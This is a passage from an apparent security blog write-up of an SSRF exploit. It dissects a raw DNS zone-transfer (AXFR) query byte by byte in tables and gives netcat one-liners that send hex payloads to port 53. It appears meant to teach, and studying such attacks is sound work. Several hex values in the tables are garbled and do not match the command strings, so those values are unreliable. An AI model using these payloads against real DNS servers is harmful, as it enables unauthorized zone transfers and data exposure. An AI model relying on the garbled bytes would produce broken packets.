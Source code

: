 
**Query**

| Data           | Description |
| -------------- | ----------- |
| 07             | Length domain part 1: 7 |
| 6578616d706c65 | Domain part 1: `example` |
| 03             | Length domain part 2: 3 |
| 6c616          | Domain part 2: `lab` |
| 00fc           | AXFR query: 252 |
| 0001           | Internet query class |


**Additional Record**

This part is not essential for our exploit, but I included it in this blog post for the sake of completeness.

| Data             | Description |
| ---------------- | ----------- |
| 00               | Name |
| 0029             | Type OPT |
| 04d00            | UDP payload |
| 00               | Something? |
| 00               | EDNSO version |
| 0000             | Z |
| 00c0             | Data length |
| 00a0008180f72afca818649 | Option COOKIE |
 

We will replay this query using `netcat` on port 53 (TCP). This works because the DNS server from `ssrf_dns.py` is listening on both UDP and TCP.

{% highlight ps1%}
echo 0034a9c100200001000000000001076578616d706c65036c61620000fc000100002904d000000000000c000a0008180f72afca818649 | xxd -r -p | nc 127.0.0.1 53
{% endhighlight %}

But we can shorten this payload by removing the `Additional records`, change `01` to `00` in the correct part of the header.
Don't forget to change the length in the header section.


{% highlight ps1%}
# Payload: 00[LENGTH]a9c1002000010000000000[ADDITIONAL_RECORD]076578616d706c65036c61620000fc0001 
echo 001da9c100200001000000000000076578616d706c65036c61620000fc0001 | xxd -r -p | nc 127.0.0.1 53
{% endhighlight %}

